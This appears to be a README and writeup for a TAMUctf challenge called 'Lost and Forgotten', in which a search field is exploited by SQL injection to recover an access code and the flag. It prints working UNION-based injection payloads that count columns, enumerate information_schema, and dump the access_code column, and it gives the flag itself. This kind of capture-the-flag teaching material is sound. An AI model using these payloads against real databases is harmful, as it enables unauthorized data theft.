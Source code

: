 # Lost and Forgotten

Author: `Mr. Blade`

## Description

I seem to have forgotten the password to my most recent writeup. I wonder if there is any way to recover it.

## Dev notes

Start challenge: `make run`

Stop challenge: `make stop`

Message me if there is not enough information in the description I can add more to lower the difficulty if needed.

## Writeup
After some messing around with things, it seems like the 2 things we can interact with are entering a secret code or using a search function, which appears to actually do some searching based on matching substring.

This search probably has a database behind it, so let's test for SQL injection. Trying the following payload returns all of the writeups:

```
' #
```

So there is a vuln here, next is to do some enumeration. I need to know how many columns it is pulling, so I tried union select with more columns until this returned all the writeups plus a new entry

```
' UNION SELECT 1, 2, 3, 4, 5, 6#
```

Next, let's see what tables there are. Running the following:
```
' UNION SELECT Table_name, 2, 3, 4, 5, 6 from information_schema.tables#
```

Dumps a bunch of stuff, but one of the interesting table names is articles, which likely contains all of the writeups we are seeing. Let's see what columns there are:
```
' UNION SELECT column_name, 2, 3, 4, 5, 6 from information_schema.columns#
```

This query shows that there is a column called access_code. Let's query for that column from the articles table with
```
' UNION SELECT access_code, 2, 3, 4, 5, 6 from articles#
```

This gets us a code `ba65ba9416d8e53c5d02006b2962d27e`. Putting this in as the secret code gets us the flag:

`tamuctf{st4te_0f_th3_UNION_1njecti0n}`
